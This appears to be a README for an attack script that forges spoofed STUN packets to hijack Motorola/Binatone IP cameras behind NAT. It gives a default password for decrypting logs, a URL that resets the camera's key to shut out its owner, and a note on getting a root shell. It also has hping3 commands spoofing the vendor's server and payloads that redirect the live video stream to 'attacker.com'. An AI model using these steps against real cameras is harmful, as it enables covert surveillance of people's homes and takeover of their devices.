 # TL;DR
This script makes special STUN packets to control Motorola/Binatone IP cameras behind NAT
It has been tested with a Motorola FOCUS 73.

# Requirements
* Read the blog at http://www.contextis.com/resources/blog/push-hack-reverse-engineering-ip-camera/
* A valid AES key for your target camera
* hping3 for sending your packet
* Ability to IP spoof (most ISPs don't allow this so either get closer to the target or find a new ISP)
* Wireshark for testing. Should come up as UDP/STUN

# Getting the AES key
There are many ways to get the key:

### Download it
If you can access the device locally, visit :8080/cgi-bin/logdownload.cgi then decrypt the logs with **Cvision123459876**

### Set it
If you want to stop the owner accessing it too: :80/?action=command&command=set_master_key=MyCameraNowThanx

### Read it from the file system
Get a root shell on the camera with a bit of javascript (see blog) then find skyeye.conf. The AES key is in there.

# Execution

`python stunning.py “set_wowza_server&value=10.45.3.100” > stunpacket`
`hping3 10.45.3.62 --udp -V -p 50610 --spoof stun.hubble.in -s 3478 --file stunpacket --data $(stat -c%s stunpacket) -c 1`
Note: The UDP source port will always be 3478 but the destination port is dynamic. If you have access to the camera you can find it with netstat otherwise you will need to try different ports with the following 2 payloads to find the right UDP port.
`set_wowza_server&value=attacker.com`
`start_rtmp`
You will know you've got the right port because you'll receive a live RTMP video stream on TCP 1935. Red5 can be used to receive the video.


